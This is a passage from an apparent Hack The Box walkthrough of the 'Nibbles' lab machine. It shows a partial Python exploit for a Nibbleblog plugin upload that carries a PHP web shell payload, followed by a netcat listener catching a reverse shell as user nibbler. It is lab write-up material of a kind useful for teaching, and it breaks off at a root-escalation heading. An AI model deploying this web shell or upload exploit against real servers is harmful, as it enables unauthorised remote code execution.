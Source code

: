 ```python
def execute_commands(target, username, password):
    payload = '<?php echo shell_exec($_GET["cmd"]); ?>'
    login(target, username, password)
    image_url = f"{target}/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image"
    exec_path = f"{target}/nibbleblog/content/private/plugins/my_image/image.php"
    try:
          req = SESSION.get(image_url, timeout=10, verify=False)
    except Exception as e:
        sys.exit("[-] Exception: {}".format(e))
```

![](attachments/nibbles_8.png)

I opened `image.php` after setting up a listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.75] 58364
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:57:57 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```



# Shell as `root`
